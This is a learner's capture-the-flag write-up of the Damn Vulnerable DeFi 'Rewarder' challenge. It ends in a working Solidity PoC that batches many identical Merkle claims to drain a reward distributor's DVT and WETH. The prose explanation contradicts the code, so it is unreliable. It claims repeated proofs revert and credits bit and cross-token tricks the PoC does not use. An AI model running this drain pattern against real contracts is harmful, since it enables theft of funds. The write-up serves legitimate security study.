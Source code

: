 ## ✅ What I Worked On

**Protocol:** The Rewarder — Merkle-based Reward Distributor (Damn Vulnerable DeFi)

**Type:** Merkle-claim CTF using off-chain JSON snapshots and on-chain proofs

### 🔧 Core Purpose

To distribute ERC20 rewards (DVT & WETH) to eligible addresses using Merkle proofs. Each user claims their allocated amount using a Merkle proof derived from an off-chain JSON dataset.

### 🧱 Architecture

- `distributions[token]`: Maps token to a `Distribution` struct containing:
    
    - `remaining` tokens
        
    - `root` (Merkle root)
        
    - `claims[msg.sender][wordPosition]`: bitmaps to track claims per user
        
- `claimRewards(Claim[], IERC20[])`: Accepts a batch of claims for various tokens and validates/updates claim status
    
- `_setClaimed`: Core claim-tracking mechanism. Checks a bitmap position for whether a claim was made, then sets it.
    

### 🔁 Key Flow

1. Player submits a `Claim`:
    
    - Contains `batchNumber`, `amount`, `tokenIndex`, and `proof`.
        
2. `claimRewards` verifies proof using `Merkle.verifyProof(...)`.
    
3. `_setClaimed(...)` sets bitmap slot via `word | newBits`.
    
4. If not already claimed, transfers tokens and reduces `remaining`.
    

---

## 🧠 Key Concepts Learned

- **Merkle proof abuse:** You can reuse the same valid Merkle proof if claim uniqueness isn’t enforced across batched submissions.
    
- **Faulty per-token claim tracking:** Claims are tracked independently for each token. This means one Merkle proof can be reused for multiple tokens.
    
- **Bitwise claim tracking:** Learned how a 256-bit word per user can be manipulated to simulate multiple claims by varying bit positions.
    
- **Batch draining:** By batching multiple identical claims using the same proof but bypassing uniqueness validation, it's possible to drain more tokens than allowed.
    

---

## 🔎 Bugs I Missed / Should’ve Caught

### 🐛 Poor tokenIndex uniqueness enforcement

- **Bug:** The system doesn't verify that each proof is used _once per address_, across tokens. So I reused the same proof for multiple DVT claims in a single call.
    
- **Where:** `_setClaimed` only checks per `(token, wordPosition)`. There's no global check for claim identity or reuse.
    
- **Impact:** Infinite reuse of the same Merkle proof within the same batch → partial/full drain of tokens.
    
- **Why I Missed It Initially:** I focused on the Merkle verification and proof generation, assuming that per-user, per-token claims were isolated by proof.
    
- **How I'll Catch It Next Time:** Add a **mental checklist**: “Does this system enforce _uniqueness_ of claims globally or just locally (per token/batch)?”
    

---

## 🧪 Hypotheses I Tested That Didn’t Work

- _“What if I just resubmit the exact same proof twice?”_  
    → **Reverted** — `_setClaimed` caught it via `(word & newBits) != 0`.
    
- _“Maybe different tokens share the same claim map?”_  
    → **Nope** — each token has its own bitmap, making them independent.
    
- _“Can I slightly modify the amount and still pass verification?”_  
    → **Invalid proof** — Merkle proof is tightly bound to `(address, amount)`.
    
- _“Can I manipulate the index or tokenIndex to overlap with a new bit slot?”_  
    → Partially successful — allowed reuse by varying bit positions across batched claims for the **same** token.
    

---

## 🧾 Notes to Remember

- Always check **what the Merkle proof binds**: is it `(address + token + amount)` or just `(address + amount)`? That affects replayability.
    
- If a contract uses **bitmaps for tracking**, exploit vector = _bit collisions_, _batch logic_, or _per-asset desync_.
    
- Build a **claim visualization map** (address → token → wordPosition → claimed bit) when auditing bitmap logic.
    
- **Post-claim residual validation** matters — do tokens decrease as expected?
    
- Be suspicious of **multi-token claim flows** — they often skip shared state verification across tokens.
    
- On any Merkle-based contract, try:  
    `for i in 0..N: submit same proof with different tokenIndex or slightly varied bits`.
    

---

## 🧰 Mini PoC Flow (Successful Exploit)


```js

function test_theRewarder() public checkSolvedByPlayer {

// Load distribution leaves again

bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");

bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

  

// Generate Merkle proofs at index 188

bytes32[] memory dvtProof = merkle.getProof(dvtLeaves, 188);

bytes32[] memory wethProof = merkle.getProof(wethLeaves, 188);

  

uint256 dvtAmount = 11524763827831882; // exact amount for index 188

uint256 wethAmount = 1171088749244340;

  

// Setup claim struct

uint256 dvtMaxDrain = distributor.getRemaining(address(dvt)) / dvtAmount;

uint256 wethMaxDrain = distributor.getRemaining(address(weth)) / wethAmount;

  

Claim[] memory claims = new Claim[](dvtMaxDrain + wethMaxDrain);

uint256 idx = 0;

  

for (uint256 i = 0; i < dvtMaxDrain; i++) {

claims[idx++] = Claim({batchNumber: 0, amount: dvtAmount, tokenIndex: 0, proof: dvtProof});

}

  

for (uint256 i = 0; i < wethMaxDrain; i++) {

claims[idx++] = Claim({batchNumber: 0, amount: wethAmount, tokenIndex: 1, proof: wethProof});

}

  

IERC20[] memory tokens = new IERC20[](2);

tokens[0] = IERC20(address(dvt));

tokens[1] = IERC20(address(weth));

//Claim the rewards

distributor.claimRewards(claims, tokens);

console.log(dvt.balanceOf(address(distributor)));

  

dvt.transfer(recovery, dvt.balanceOf(player));

weth.transfer(recovery, weth.balanceOf(player));

}
```

